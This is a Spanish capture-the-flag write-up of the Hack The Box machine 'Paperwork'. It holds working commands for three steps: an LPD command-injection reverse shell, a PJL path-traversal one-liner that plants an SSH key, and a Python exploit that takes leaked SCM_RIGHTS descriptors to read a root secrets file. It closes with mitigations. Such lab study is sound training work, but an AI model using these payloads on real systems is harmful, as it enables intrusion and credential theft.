








# Paperwork

[{ .maquina-icono }](https://app.hackthebox.com/machines/Paperwork)

!!! warning "Máquina activa — no publicada todavía"
    Cuando escribí este writeup **Paperwork seguía activa** en Hack The Box.
    Publicar el writeup de una máquina activa va contra las normas de HTB y
    contra el alcance de este repo (solo máquinas retiradas), así que está en
    `estado: privado`: **no aparece ni en el sitio ni en el índice**. Además los
    flags van **censurados** en el texto y las capturas con secretos reales
    (`08`, `09`) están **difuminadas**. Se publicará tal cual cuando la máquina
    se retire.

## Resumen

Máquina Linux (Ubuntu 25.10) que encadena tres saltos de privilegio con una
misma idea de fondo: **si yo no puedo hacer algo, busco un servicio que corra
con más permisos y consigo que lo haga por mí**. Se entra por una **inyección de
comandos** en un servicio **LPD** (RFC 1179) del puerto 1515 que da shell como
`lp`. De ahí a `archivist` por un **path traversal** en un emulador de impresora
**HP JetDirect / PJL** (puerto 9100) con el que se planta una clave SSH. Y de
`archivist` a `root` abusando de un daemon que **reparte descriptores de fichero
abiertos** por un socket Unix (`SCM_RIGHTS`), lo que deja leer un fichero de
secretos saltándose los permisos.

## Reconocimiento

Escaneo de puertos inicial:

```bash
nmap -p- --min-rate 5000 -Pn 10.129.90.9
nmap -sCV -p 22,80,1515 10.129.90.9
```

Puertos abiertos relevantes: **22 (SSH)**, **80 (HTTP)** y **1515**, que no es un
puerto habitual. Una conexión manual nos confirma que hay algo escuchando:

```bash
nc -v 10.129.90.9 1515
```



El 1515 está registrado por IANA como `ndl-aas` (impresoras Novell), pero el
nombre por defecto de un puerto **no** dice qué corre de verdad en él. Hay que
verificarlo, no fiarse de la etiqueta.

## Enumeración

### El portal web (puerto 80)

La web es un *Intake Portal* de un sistema de archivado documental. Lo
importante: declara el protocolo (`Compliance Level: RFC 1179`), una cola
(`archive_intake`) y, sobre todo, un enlace de descarga del *Internal
Processor* (`paperwork-archive-v1.02`) que entrega un **ZIP con el código fuente**
de los servicios.



Que te den el código fuente es oro: en vez de atacar a ciegas, podemos **leer el
código y encontrar el fallo nosotros mismos**.

```bash
curl -s http://paperwork.htb/download/archive -o archive.zip
unzip archive.zip      # -> server.py (el servicio LPD del 1515)
```

### El fallo en el servicio LPD

`RFC 1179` es el protocolo **LPD** (Line Printer Daemon). Leyendo `server.py`
aparece la línea peligrosa:

```python
subprocess.Popen(f"echo 'Archive: {job_name}' >> /tmp/archive.log", shell=True)
```

`job_name` viene **directo de la red** (el campo `J` del *control file* de LPD) y
se mete sin sanear en una shell (`shell=True`). Esto es una **inyección de
comandos** de manual (CWE-78). Como el nombre va dentro de comillas simples,
podemos cerrarlas y encadenar nuestro propio comando con `;`.

## Explotación — Acceso inicial (usuario `lp`)

El flujo de LPD para disparar la inyección:

1. `0x02` + cola (`archive_intake`) → "recibir trabajo de impresión".
2. Enviar un *control file* con una línea `J<payload>`.
3. El servidor ejecuta el `echo` con nuestro `job_name` → **ejecución de comandos**.

Usando el PoC público del servicio contra la cola correcta:

```bash
# En Kali:
nc -lvnp 443

# Payload de reverse shell. Clave: usar python3 (la caja no tiene python a secas)
# y rutas/puerto que la máquina deje salir (443).
python3 poc.py 10.129.90.9 -q archive_intake \
  -c 'echo <BASE64_REVSHELL> | /usr/bin/base64 -d | /usr/bin/python3'
```



!!! tip "Dos tropiezos típicos aquí"
    - La reverse shell solo volvió por el **443**: la caja filtra la salida por
      otros puertos. Si tu shell no vuelve, prueba 443/80 antes de pensar que el
      exploit falla.
    - El servicio corre con un **PATH mínimo**: `python`/`nc` "a secas" fallan en
      silencio. Hay que llamar a los binarios por **ruta absoluta**
      (`/usr/bin/python3`).

Obtenemos shell como **`lp`**.

## Escalada de privilegios

### Enumeración local

Lo clásico (`sudo -l`, SUID, capabilities, cron) no da nada aprovechable
(`sudo` ni siquiera está instalado; la única capability es `cap_net_raw` en
`mtr-packet`, que no sirve para root). La pista está en los **servicios internos**:

```bash
ss -tulnp
```



Aparecen dos servicios escuchando **solo en localhost**: **1337** y **9100**.
Como `lp` no vemos su proceso → corren como **otro usuario**. Con `ps auxww` lo
confirmamos:

```text
root       965  /usr/bin/python3 /root/staging/CorpoSite/app.py            # web 1337 (root)
archivist  980  /usr/bin/python3 /home/archivist/printer/jetdirect.py 9100 /home/archivist/printer/ .../logs/commands.log
root      1490  /usr/bin/python3 /usr/bin/paperwork-daemon                 # daemon (root)
```

- **1337** es una web Flask (cabecera `Server: Werkzeug`) que corre como **root**,
  pero su `/download` **no** es traversable (rutas Flask ≠ ficheros) → callejón.
- **9100** es un emulador de impresora (**HP JetDirect / PJL**) que corre como
  **`archivist`**. Ese es el salto lateral.

### De `lp` a `archivist` — Path Traversal en JetDirect (9100)

El 9100 habla **PJL**. Como la caja no tiene `nc`, interactuamos con `bash`
(`/dev/tcp`) o un socket de Python:

```bash
exec 3<>/dev/tcp/127.0.0.1/9100; printf '@PJL INFO ID\r\n' >&3; cat <&3
# -> LASERJET 4ML
```


El sistema de ficheros de la "impresora" es **READ-WRITE** y contiene su propio
código (`jetdirect.py`). Aunque como `lp` no podemos leer ese fichero (permiso
denegado), **la impresora corre como archivist y sí puede** — así que le pedimos
que nos lo lea con `FSUPLOAD`:

```bash
# Confirmar FS y listar
printf '@PJL INFO FILESYS\r\n'  | ...   # 0: READ-WRITE
printf '@PJL FSDIRLIST NAME="0:" ENTRY=1 COUNT=65535\r\n' | ...
# Leer el propio código fuente del servicio (lo lee archivist por nosotros)
printf '@PJL FSUPLOAD NAME="0:jetdirect.py"\r\n' | ...
```



En el código, la función que traduce el nombre pedido a una ruta real:

```python
def _translate(self, path):
    clean = path.replace("0:", "").replace("\\", "/").lstrip("/")
    return os.path.normpath(os.path.join(self._root, clean))
```

**No filtra `..` en ningún momento.** Trazando `NAME="0:/../.ssh/authorized_keys"`
con `root = /home/archivist/printer`:

```text
0:/../.ssh/authorized_keys
 -> replace("0:","")  ->  /../.ssh/authorized_keys
 -> lstrip("/")       ->  ../.ssh/authorized_keys
 -> join(root, ...)   ->  /home/archivist/printer/../.ssh/authorized_keys
 -> normpath(...)     ->  /home/archivist/.ssh/authorized_keys   <- fuera de la carpeta
```

Y la función `write()` hace `os.makedirs(...)` (crea `.ssh/` si no existe) y abre
en modo `wb` (sobrescribe). Con `FSDOWNLOAD` (que **escribe**; el nombre es al
revés de lo que parece) plantamos nuestra clave SSH como archivist:

```bash
# En Kali: ssh-keygen -t rsa -b 4096 -f ~/.ssh/pwn_key -N ""
# En la caja (/tmp/k.pub contiene nuestra clave pública):
python3 -c 'import socket; pub=open("/tmp/k.pub","rb").read().strip()+b"\n"; \
h=b"@PJL FSDOWNLOAD NAME=\"0:/../.ssh/authorized_keys\" SIZE="+str(len(pub)).encode()+b"\r\n"; \
s=socket.socket(); s.connect(("127.0.0.1",9100)); s.sendall(h+pub); \
import time; time.sleep(1); s.close()'
```

!!! warning "Detalle que cuesta una hora si lo fallas"
    En la cabecera, **`NAME` debe ir ANTES que `SIZE`** (así lo exige el regex del
    handler). Al revés falla en silencio con `FILEERROR=1`.

Y entramos por SSH como **archivist**:

```bash
ssh -i ~/.ssh/pwn_key archivist@10.129.90.9
```



Flag de usuario:

```bash
cat ~/user.txt   # [censurada]
```



### De `archivist` a `root` — Fuga de descriptor por socket Unix (`SCM_RIGHTS`)

El proceso `paperwork-daemon` corre como **root** y su código es legible. Lo clave:

```python
# Al arrancar, COMO ROOT, abre el fichero de secretos y se guarda el fd abierto:
admin_fd = os.open("/etc/paperwork/admin_pins.conf", os.O_RDONLY)
...
# Escucha en un socket Unix accesible por el grupo archivist (gid 1000):
os.chown(socket_path, 0, 1000)   # root:archivist, 0o660
...
# Si detecta "malicia" en el log, MANDA los fds abiertos al cliente:
evidence_bundle = array.array("i", [log_fd, admin_fd])
conn.sendmsg([msg], [(socket.SOL_SOCKET, socket.SCM_RIGHTS, evidence_bundle)])
```

**El concepto bonito:** un *descriptor de fichero* es como un ticket a un fichero
**ya abierto**; la comprobación de permisos se hizo **al abrirlo** (como root). Con
`SCM_RIGHTS`, un proceso puede **pasarle ese ticket a otro por un socket Unix**. El
daemon nos regala el ticket de `admin_pins.conf` que abrió root → lo recibimos
como archivist y **leemos el fichero saltándonos los permisos**.

El disparador (`scan_for_malice`) salta si el log contiene `FSQUERY`, `FSUPLOAD`
o `FSDOWNLOAD` — comandos que ya hemos estado mandando a la impresora. Como
archivist, además, podemos escribir el log directamente. Cada disparo **vacía el
log**, así que re-sembramos justo antes de cada intento:

```bash
echo FSUPLOAD >> /home/archivist/printer/logs/commands.log
python3 -c 'import socket,array,os; s=socket.socket(socket.AF_UNIX,socket.SOCK_STREAM); \
s.connect("/run/paperwork/mgmt.sock"); msg,anc,fl,ad=s.recvmsg(4096,socket.CMSG_LEN(2*4)); \
fds=array.array("i"); [fds.frombytes(d[:len(d)-(len(d)%4)]) for l,t,d in anc if t==socket.SCM_RIGHTS]; \
print([os.pread(fd,4096,0) for fd in fds]); s.close()'
# -> ...  b'ADMIN_PASSWORD=[censurada]'
```

Con esa contraseña, a root:

```bash
su root
cat /root/root.txt   # [censurada]
```




## Mitigación

- **Inyección LPD:** nunca construir comandos de shell concatenando entrada del
  usuario. Usar `subprocess` con lista de argumentos (sin `shell=True`) y validar
  el `job_name` contra una lista blanca.
- **Path traversal en JetDirect:** normalizar la ruta y **comprobar que el
  resultado sigue dentro del directorio base** (`os.path.commonpath`), rechazando
  cualquier ruta con `..` o que escape de `root`.
- **Fuga de descriptor:** no mantener abiertos como root descriptores a ficheros
  de secretos, y jamás reenviarlos por un canal accesible a usuarios de menor
  privilegio. Si un servicio necesita datos sensibles, que los lea bajo demanda
  con los permisos adecuados, no que reparta `fd` por `SCM_RIGHTS`.
- **Defensa en profundidad:** servicios con el mínimo privilegio, segmentación de
  los servicios internos y revisión de los permisos de los sockets de gestión.

## Lo que me costó / Lo que aprendí

Lo que me llevo de Paperwork es un patrón que se repite tres veces seguidas: **si
yo no puedo hacer algo, busco un servicio que corra con más permisos y consigo
que lo haga por mí**. El `lp` no podía leer `jetdirect.py`, pero la impresora sí;
el `archivist` no podía leer el fichero de secretos, pero el daemon de root ya lo
tenía abierto y me regalaba el descriptor. Verlo tres veces en la misma máquina
me dejó la idea clavada.

Los tropiezos que más tiempo me costaron fueron tontos pero caros: la reverse
shell **solo volvía por el 443** (la caja filtra la salida), así que estuve un
rato pensando que el exploit fallaba cuando el problema era el puerto. Lo mismo
con el **PATH mínimo** del servicio: llamar a `python` o `nc` a secas fallaba en
silencio y había que tirar de ruta absoluta. Y en el path traversal, el orden de
la cabecera PJL —**`NAME` antes que `SIZE`**— me tuvo un buen rato con un
`FILEERROR=1` sin pista de por qué, hasta que leí el regex del handler. La
lección: cuando algo "falla sin decir nada", casi siempre es un detalle del
entorno (puerto, PATH, formato), no el exploit en sí.
